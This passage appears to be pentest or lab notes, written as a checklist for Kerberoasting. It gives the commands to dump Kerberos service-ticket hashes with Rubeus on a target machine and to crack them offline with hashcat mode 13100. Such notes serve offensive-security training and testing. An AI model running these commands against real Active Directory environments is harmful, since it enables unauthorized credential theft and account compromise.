 - - -
## Kerberoasting w/ Rubeus : 
- [ ] Download and transfer Rubeus on target machine. 
- [ ] Navigate to the directory Rubeus is in. 
- [ ] Following will dump the Kerberos hash of any kerberoastable users. 

```CMD
Rubeus.exe kerberoast 
```

![Imgur](https://i.imgur.com/qnRqesT.png)

Copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat. 

```sh
hashcat -m 13100 -a 0 hash.txt Pass.txt
``` 

- - -

